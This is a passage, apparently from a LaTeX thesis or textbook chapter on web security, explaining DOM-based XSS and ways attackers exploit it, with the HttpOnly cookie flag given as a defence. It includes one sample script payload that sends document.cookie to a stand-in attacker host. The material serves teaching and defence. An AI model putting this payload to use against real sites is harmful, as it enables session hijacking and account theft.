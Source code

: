 \subsubsection{DOM-based XSS}
DOM-based attacks can be a variant of the attacks mentioned earlier, with a subtle but important difference. The malicious js is inserted in the DOM by the js of the web application itself, and not by the server. This means that the front-end of the web app is also vulnerable to this kinds of exploits. This also means that the malicious js can come from other sources that are not visible to the server, like local storage, Indexed DB and in a URL's fragment identifier. Another thing to mind is that the malicious js can be executed later, and not always when the page is loaded.	


\subsection{Attacks using XSS}
Once the attacker finds a vulnerability has several ways to exploit it. Knowing the diverse ways a XSS can be used is useful to prevent it.

\subsubsection{Session hijacking attack}
The goal of this attack is to steal the session cookies to impersonate the user. A payload like this can send the cookies to a remote server controlled by the attacker passing the cookies as a parameter.

\verb|<script>document.InnerHTML += "<img src='http://attackersite.com/?cookie="+ document.cookie + "/'>" </script>|

This attack can be easily countered by setting the session cookies with the flag HTTPOnly, that we explained earlier in the cookies chapter.

\subsubsection{Phishing attack}
This attack overwrites the HTML of the website to trick the user into sending login credentials to the attacker. For example the payload can modify a form to submit the contents to a malicious server, or even modify the current page to make it look like the login page.

\subsubsection{Others}
JavaScript can interact with a lot of parts of the browser, and this makes XSS exploits very powerful. The attacker imagination is the limit but we can name a few more ways to exploit a XSS.
\begin{itemize}
	\item Redirect the victim to another URL.
	\item Modify the page with fake information.
	\item Recollect user information.
	\item Find browser version to send a targeted exploit.
\end{itemize}

